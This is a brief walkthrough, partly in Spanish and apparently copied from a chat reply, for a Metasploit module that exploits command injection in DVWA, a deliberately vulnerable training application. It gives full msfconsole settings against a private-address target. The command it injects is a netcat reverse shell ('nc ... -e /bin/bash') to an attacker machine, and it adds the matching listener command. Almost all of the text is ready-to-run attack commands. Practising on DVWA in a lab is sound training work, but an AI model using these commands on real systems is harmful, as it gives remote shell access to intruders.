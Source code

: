 This module exploits a command injection vulnerability in DVWA's vulnerable "exec" module.
        It allows remote command execution via direct command injection, without using a payload.


**Configuración de opciones en msfconsole
bash
Copiar
Editar
use exploit/multi/http/dvwa_simple_cmd
set RHOSTS 192.168.1.230
set RPORT 80
set TARGETURI /digininja/vulnerabilities/exec/
set CMD nc 192.168.1.240 4444 -e /bin/bash
set SSL false
set VERBOSE true
exploit

🔊 Preparación del listener en otro terminal
Como el comando es una reverse shell usando netcat, antes de lanzar el exploit, asegúrate de tener un listener en tu máquina atacante (Kali):

bash
Copiar
Editar
nc -lvnp 4444
